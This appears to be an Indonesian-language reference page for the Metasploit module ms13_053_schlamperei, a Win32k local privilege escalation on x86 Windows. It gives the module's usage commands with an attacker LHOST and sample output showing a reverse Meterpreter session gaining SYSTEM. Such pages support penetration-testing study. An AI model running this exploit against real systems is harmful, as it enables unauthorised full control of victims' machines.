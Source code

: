 # ms13_053_schlamperei

Modul ini memanfaatkan overflow pada kernel pool di `Win32k` yang memungkinkan eskalasi hak akses (`privilege escalation`) secara lokal. `Shellcode` pada kernel akan menghapus `ACL` (`Access Control List`) dari proses `winlogon.exe` (proses dengan hak akses `SYSTEM`). Hal ini memungkinkan proses yang tidak memiliki hak akses untuk berpindah (migrasi) ke dalam proses `winlogon.exe`, sehingga mendapatkan hak akses `SYSTEM`. Exploit ini digunakan dalam ajang `Pwn2Own 2013` oleh `MWR` untuk keluar dari `sandbox Chrome`.

## Penulis
- Nils
- Jon
- Donato Capitella donato.capitella@mwrinfosecurity.com
- Ben Campbell ben.campbell@mwrinfosecurity.com

## Platform
- `Windows`

## Arsitektur
- `x86`

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms13_053_schlamperei
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] win32k.sys file version: 6.1.7601.17514 branch: 17
[*] Launching notepad to host the exploit...
[+] Process 804 launched.
[*] Reflectively injecting the exploit DLL into 804...
[*] Injecting exploit into 804...
[*] Found winlogon.exe with PID 472
[*] Creating the thread to execute in 0x480000 (pid=472)
[*] Sending stage (177734 bytes) to 192.168.1.53
[+] Everything seems to have worked, cross your fingers and wait for a SYSTEM shell
[*] Meterpreter session 19 opened (192.168.1.11:4444 -> 192.168.1.53:49161) at 2025-05-17 06:32:21 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/ms13_053_schlamperei/)
